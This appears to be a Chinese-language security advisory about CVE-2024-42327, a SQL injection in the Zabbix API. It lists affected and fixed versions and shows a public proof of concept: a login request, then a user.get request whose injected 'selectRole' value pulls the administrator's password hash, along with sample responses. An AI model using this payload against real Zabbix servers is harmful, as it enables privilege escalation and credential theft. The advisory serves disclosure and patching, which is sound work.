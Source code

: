 #  CVE-2024-42327 Zabbix 严重漏洞POC已公开！   
原创 一个不正经的黑客  一个不正经的黑客   2024-12-03 16:01  
  
# CVE-2024-42327 Zabbix API SQL注入漏洞公开POC  
## 漏洞情况  
  
官方通报：  
  
https://support.zabbix.com/browse/ZBX-25623  
  
漏洞类型：  
  
SQL 注入（SQL Injection, CWE-89）；  
  
漏洞编号：CVE-2024-42327；  
  
严重性等级：Critical（严重）；  
  
CVSS 分数：9.9；  
  
影响范围：Zabbix 6.0.0 至 6.0.31、Zabbix 6.4.0 至 6.4.16、Zabbix 7.0.0；  
  
修复版本：6.0.32rc1、6.4.17rc1、7.0.1rc1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMp3Lp8DlgqO7GFTeTiczJry9CBakB10LlYxyicu0bu4AxlCsibUBnx35fNsslptZdCJibMYpPGc6MdZMg/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞描述  
  
在 Zabbix 前端，具有默认“用户”（User）角色或其他具备 API 访问权限的非管理员用户，可以利用该漏洞发起攻击。  
  
SQL 注入存在于 CUser 类的 addRelatedObjects 函数中，而该函数由 CUser.get API 调用。  
  
由于所有具备 API 访问权限的用户均可调用 CUser.get，导致低权限用户能够注入恶意 SQL 语句，进而实现权限提升、敏感信息访问或其他更严重的攻击行为  
## 漏洞成因  
  
漏洞源于 addRelatedObjects 函数对输入参数的处理不当，未对传入的 SQL 查询参数进行充分验证。  
  
攻击者可以通过 CUser.get API，构造恶意请求注入 SQL 语句。  
## 利用条件  
  
攻击者需要具备 API 访问权限，默认情况下 Zabbix 前端的“用户”角色即可满足条件，因此漏洞利用门槛较低。  
## 攻击后果  
  
权限提升：低权限用户可通过注入 SQL，访问到管理员权限账号的数据或其他敏感信息。  
  
数据泄露：攻击者可利用注入的 SQL 查询数据库内容，窃取关键信息。  
  
系统入侵：攻击者可能通过注入恶意 SQL 语句，执行进一步的持久化攻击或破坏操作。  
## 官方响应  
  
该漏洞由安全研究员 Márk Rákóczi（HackerOne 平台用户“reeeeeeeeeeee”）报告，已在以下版本中修复：6.0.32rc1、6.4.17rc1、7.0.1rc1, 漏洞修复的版本信息在 2024 年 11 月 27 日公开,建议用户尽快升级到修复版本！  
## POC 公开  
  
目前POC已经公开,由于目前公众号的后台程序运行异常，需要的朋友可以自行去取：  
  
https://github.com/aramosf/cve-2024-42327  
  
**1. 登录请求 (Login Request)**  
  
**请求方法**  
: POST  
  
**URL**  
: http://<目标地址>/api_jsonrpc.php  
  
**请求体**  
:  
```
1{2  "jsonrpc": "2.0",3  "method": "user.login",4  "params": {5    "username": "aramosf",6    "password": "Hola1234"7  },8  "id": 19}
```  
  
**响应示例**  
:  
```
1{2  "jsonrpc": "2.0",3  "result": "cfb2be2d7aa9a8b432c5db2a19cd7f73",4  "id": 15}
```  
  
响应中 result 字段的值 (cfb2be2d7aa9a8b432c5db2a19cd7f73) 是会话令牌 (session token)，用于后续的 API 请求。  
  
**2. 获取用户信息请求 (Fetch User Details Request)**  
  
**请求方法**  
: POST  
  
**URL**  
: http://<目标地址>/api_jsonrpc.php  
  
**请求体**  
:  
```
1{2  "jsonrpc": "2.0",3  "method": "user.get",4  "params": {5    "selectRole": ["roleid, u.passwd", "roleid"],6    "userids": "1"7  },8  "auth": "cfb2be2d7aa9a8b432c5db2a19cd7f73",9  "id": 110}
```  
  
**响应示例**  
:  
```
1{2  "jsonrpc": "2.0",3  "result": [4    {5      "userid": "1",6      "username": "Admin",7      "name": "System",8      "surname": "Administrator",9      "role": {10        "passwd": "d41d8cd98f00b204e9800998ecf8427e"11      }12    }13  ],14  "id": 115}
```  
  
**攻击流程总结**  
  
1.**登录获取令牌**  
: 攻击者首先利用 user.login 方法，通过提供合法的用户名和密码，获得会话令牌。  
  
2.**批量请求用户信息**  
: 使用 user.get 方法，枚举用户 ID 并提取相关用户详细信息。  
  
3.**攻击数据分析**  
: 响应中的数据可能包含敏感信息（如用户名、哈希密码等），攻击者可以进一步尝试破解密码或分析用户权限。  
## 漏洞点评  
  
CVSS 9.9 评分的漏洞，利用条件较低，建议及时排查修复升级到修复版本。  
  
  
